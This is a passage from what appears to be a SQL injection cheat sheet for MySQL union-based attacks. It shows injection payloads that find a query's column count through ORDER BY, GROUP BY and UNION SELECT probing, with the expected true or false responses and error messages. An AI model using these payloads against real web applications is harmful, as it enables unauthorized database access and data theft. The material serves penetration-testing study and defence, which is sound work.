
## MYSQL Union Based

### Detect columns number

First you need to know the number of columns

##### Using `order by` or `group by`

Keep incrementing the number until you get a False response.
Even though GROUP BY and ORDER BY have different funcionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```
or 
```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```
##### Using `order by` or `group by` Error Based
Similar to the previous method, we can check the number of columns with 1 request if error showing is enabled.
```sql
1' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+

# Unknown column '4' in 'order clause'
# This error means query uses 3 column
#-1' UNION SELECT 1,2,3--+	True
```
or
```sql
1' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+

# Unknown column '4' in 'group statement'
# This error means query uses 3 column
#-1' UNION SELECT 1,2,3--+	True
```
##### Using `UNION SELECT` Error Based
This method works if error showing is enabled
```sql
1' UNION SELECT @--+        #The used SELECT statements have a different number of columns
1' UNION SELECT @,@--+      #The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@--+    #No error means query uses 3 column
                            #-1' UNION SELECT 1,2,3--+	True
```
##### Using `LIMIT INTO` Error Based
This method works if error showing is enabled.
